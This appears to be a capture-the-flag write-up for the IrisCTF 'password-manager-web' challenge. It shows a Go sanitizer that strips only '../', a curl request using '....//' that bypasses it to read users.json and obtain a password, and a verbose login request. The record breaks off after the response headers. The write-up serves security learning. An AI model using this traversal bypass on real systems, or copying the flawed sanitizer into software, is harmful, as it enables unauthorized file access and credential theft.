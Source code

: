 Path Replacer func-:

```golang
var PathReplacer = strings.NewReplacer(
	"../", "",
)
```

### Exploitation-:

- Users.json with path traversal

```bash
❯ curl --path-as-is https://password-manager-web.chal.irisc.tf/....//users.json
{
    "skat": "rf=easy-its+just&spicysines123!@"
}
```

- Login with user `skat` and grab his cookie

```bash
❯ curl https://password-manager-web.chal.irisc.tf/login -H "Content-Type: application/json" -d '{"usr":"skat","pwd":"rf=easy-its+just&spicysines123!@"}' -v
* Host password-manager-web.chal.irisc.tf:443 was resolved.
* IPv6: (none)
* IPv4: 34.32.139.120
*   Trying 34.32.139.120:443...
* GnuTLS ciphers: NORMAL:-ARCFOUR-128:-CTYPE-ALL:+CTYPE-X509:-VERS-SSL3.0
* ALPN: curl offers h2,http/1.1
* found 146 certificates in /etc/ssl/certs/ca-certificates.crt
* found 440 certificates in /etc/ssl/certs
* SSL connection using TLS1.3 / ECDHE_RSA_AES_256_GCM_SHA384
*   server certificate verification OK
*   server certificate status verification SKIPPED
*   common name: *.chal.irisc.tf (matched)
*   server certificate expiration date OK
*   server certificate activation date OK
*   certificate public key: RSA
*   certificate version: #3
*   subject: CN=*.chal.irisc.tf
*   start date: Fri, 27 Dec 2024 22:43:12 GMT
*   expire date: Thu, 27 Mar 2025 22:43:11 GMT
*   issuer: C=US,O=Let's Encrypt,CN=R10
* ALPN: server accepted h2
* Connected to password-manager-web.chal.irisc.tf (34.32.139.120) port 443
* using HTTP/2
* [HTTP/2] [1] OPENED stream for https://password-manager-web.chal.irisc.tf/login
* [HTTP/2] [1] [:method: POST]
* [HTTP/2] [1] [:scheme: https]
* [HTTP/2] [1] [:authority: password-manager-web.chal.irisc.tf]
* [HTTP/2] [1] [:path: /login]
* [HTTP/2] [1] [user-agent: curl/8.11.0]
* [HTTP/2] [1] [accept: */*]
* [HTTP/2] [1] [content-type: application/json]
* [HTTP/2] [1] [content-length: 55]
> POST /login HTTP/2
> Host: password-manager-web.chal.irisc.tf
> User-Agent: curl/8.11.0
> Accept: */*
> Content-Type: application/json
> Content-Length: 55
> 
* upload completely sent off: 55 bytes
< HTTP/2 200 
< date: Sat, 04 Jan 2025 07:17:12 GMT
< content-type: text/plain; charset=utf-8
```